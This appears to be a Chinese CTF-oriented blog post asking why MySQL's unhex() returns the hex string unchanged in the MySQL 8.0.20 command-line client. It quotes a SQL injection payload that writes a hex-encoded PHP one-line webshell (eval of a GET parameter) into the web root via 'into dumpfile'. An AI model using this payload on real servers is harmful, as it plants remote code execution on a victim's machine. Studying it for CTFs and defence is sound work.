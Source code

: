 ```yaml
---
layout:       post
title:        "unhex在MySQL终端工具不可用的问题总结"
subtitle:     "null"
date:         2020-09-13 0‏‎1:54:55
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: false
tags:
    - MySQL
    - Sec
    - WebSec
    - SQLInject
    - Bypass
---
```



# 0x00 前言

FlappyPig的《CTF特训营》Web篇第2章2.10《SQL读写文件》中讲到

> 如果题目所考察的点不是通过SQL读取文件，则可以考虑是否能通过SQL语句进行写文件，包括但不限于**Webshell、计划任务等**

其中介绍的一个写文件的Payload如下：

```sql
union select unhex("一句话Shell的十六进制") into dumpfile'/var/www/html/shell.php'
```

但是在我用MySQL 8.0.20的cli客户端尝试的过程中，发现`unhex`输出的始终是原来的十六进制字符串：

```sql
mysql> select version();
+-----------+
| version() |
+-----------+
| 8.0.20    |
+-----------+
1 row in set (0.00 sec)

mysql> select hex('<?php eval($_GET[233]); ?>');
+------------------------------------------------------+
| hex('<?php eval($_GET[233]); ?>')                    |
+------------------------------------------------------+
| 3C3F706870206576616C28245F4745545B3233335D293B203F3E |
+------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select unhex('3C3F706870206576616C28245F4745545B3233335D293B203F3E');
+------------------------------------------------------------------------------------------------------------------------------+
| unhex('3C3F706870206576616C28245F4745545B3233335D293B203F3E')                                                                |
+------------------------------------------------------------------------------------------------------------------------------+
| 0x3C3F706870206576616C28245F4745545B3233335D293B203F3E                                                                       |
+------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```
